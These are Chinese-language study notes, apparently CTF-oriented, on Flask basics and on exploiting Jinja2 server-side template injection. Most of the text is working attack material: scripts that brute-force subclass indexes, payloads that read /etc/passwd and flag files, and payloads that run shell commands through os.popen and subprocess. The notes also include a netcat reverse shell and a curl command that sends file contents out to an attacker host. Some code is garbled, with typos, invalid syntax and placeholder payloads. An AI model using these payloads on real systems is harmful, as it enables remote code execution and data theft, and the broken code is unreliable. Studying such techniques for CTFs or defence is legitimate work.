



# 1.Python venv

**定义**：相当于python的纯净虚拟环境

**创建虚拟环境**：python3 -m venv flask1

创建flask1文件夹，在该文件夹下就是python的虚拟环境

**使用**

方法1： #/opt/flask1/bin/python3 demo.py 使用特点的虚拟环境运行

方法2： cd flask1

​				scorce ./bin/acticate  

​				进入该虚拟环境

​				deactivate退出虚拟环境

# 2.Flask

## 1基本架构

```python
from flask import Flask
app=Flask(__name__)

@app.route('/dazhuang') #/127.0.0.1/dazhuang
def hello():
     return "hello dazhuang"
@app.route('/benben') #/127.0.0.1/benben
def hello():
     return "hello beneben"

if__name__=='__main__':
 	app.run('host=0.0.0.0') #可以让局域网内的都访问到 
```

## 2.变量规则

 

```python
from flask import Flask
app=Flask(__name__)

@app.route('/dazhuang/<name>') #/127.0.0.1:5000/dazhuang/xxx
def hello(name):
     return "hello %s" % name
@app.route('/benben/<int:postID>') #/127.0.0.1:5000/benben/123
def hello(postID):
     return "number %d" % postID
@app.route('/float/<float:floatpostID>') #/127.0.0.1:5000/float/123.1
def hello(floatpostID):
     return "float %f" % floatpostID

    
if__name__=='__main__':
 	app.run('host=0.0.0.0') #可以让局域网内的都访问到 
```

##  3.模板介绍

render_template：加载HTML文件。默认文件路径在templates目录下



render_template_string:用于渲染字符串，直接定义内容



# 3.Flask漏洞



## 继承关系

```python
class A:pass
class B(A):pass
class C(B):pass
class D(B):pass
c=C()
print(c.__class__) #<class '__main__.C'>
print(c.__class__.__base__) #<class '__main__.B'>
print(c.__class__.base__.__base__) #<class '__main__.A'>
print(c.__class__.__mro__) #(<class '__main__.C'>, <class '__main__.B'>, <class '__main__.A'>, <class 'object'>)
print(c.__class__.__base__.__subclasses__()) #[<class '__main__.C'>, <class '__main__.D'>]
print(c.__class__.__base__.__subclasses__()[1])#<class '__main__.D'>
```

## 魔术方法

_\_class__:查看当前类型的所属对象

_\_base__:查看当前对象的父类

_\_mro__::查看当前对象的所有父类

_\_subclassses__()：查看当前父类下的所有子类

_\_subclassses__()[1]：查看当前父类下的第二个子类，0表示第一个

_\_init__:查看是否重载，重载是指程序在运行时就已经加载好了这个模块到内存中，如果出现wrapper字眼，说明没有重载

_\_globals__:返回当前对象的全部全局变量，查看可以使用的函数

_\_builtins__:提供对Python的所有内置标识符的直接访问

eval()计算字符串表达式的值

popen()：执行一个shell以运行命令来开启一个进程

```python
"".__class__.__base__.__subclasses__()[117].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")
```

# 4.SSTI常用注入模板利用

## 文件读取

### 1._frozen_importlib_external.FileLoader

文件读取类名：_frozen_importlib_external.FileLoader

查找子类脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'_frozen_importlib_external.FileLoader' in str(response.content):
                print(i)
    except:
        pass

```

找到_frozen_importlib_external.FileLoader类名的位置

```php
{{"".__class__.__base__.__subclasses__[<font color=red>79</font>]\["get_data"](0,"/etc/passwd")}}

```

查找eval脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'eval' in str(response.content):
                print(i)
    except:
        pass
```

```php
{{"".__class__.__base__.__subclasses__()[473].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /flag").read()')}}
```


### 3.os

通过config，调用os

```php
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```

通过url_for,调用os

```php
{{url_for.__globals__.os.popen('cat /flag').read()}}
```

通过get_flashed_messages

返回之前在Flask中通过 flash() 传入的闪现信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用 get_flashed_messages() 方法取出(闪现信息只能取出一次，取出后闪现信息会被清空)。

```php
{{get_flashed_messages.__globals__.os.popen('cat /flag').read()}}
```

在已经加载os模块的子类中直接调用os模块

```php
{{"".__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['os'].popen('cat /flag').read()}}
```

查找os模块脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'os.py' in str(response.content):
                print(i)
    except:
        pass
```

可以加载第三方库，使用load_module加载os

_frozen_importlib.BuiltinImporter查找脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'_frozen_importlib.BuiltinImporter' in str(response.content):
                print(i)
    except:
        pass


```

```php
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("cat /flag").read()}}
```

subprocess.Popen模块

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'subprocess.Popen' in str(response.content):
                print(i)
    except:
        pass


```

```php
{{[].__class__.__base__.__subclasses__()[200]('ls/',shell=True,stdout=-1).communicate()[0].strip()}}
```

# 5.大括号过滤

{{}}被过略

尝试

判断语句是否能正确执行

```php
benben
```

```php
benben
```

有回显说明<font color=red>**"".\_\_class\_\_**</font>有内容

```php
benben
```

查询脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"code":'benben'}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if 'benben' in str(response.content):
                print(i)
    except:
        pass

```

# 6.无回显SSTI

## 1.反弹shell

192.168.204.149 监听7777端口

nc -lvp 7777

```python
import requests
url=input('请输入URL:')
for i in range(500):
     try:
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['popen']('netcat 192.168.1.161 7777 -e /bin/bash').read()}}"}
        response = requests.post(url,data=data)
    except:
        pass
```

## 2.带外注入

kali开启python监听

python3 -m http.server 80

```python
import requests
url=input('请输入URL:')
for i in range(500):
    try:
        data={"code":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['popen']('curl http://192.168.204.149/`cat /flag`').read()}}"}
        response = requests.post(url,data=data)
    except:
        pass
```

# 7.绕过中括号过滤

是哦用getitem函数  

```
__getitem__()=[]
```

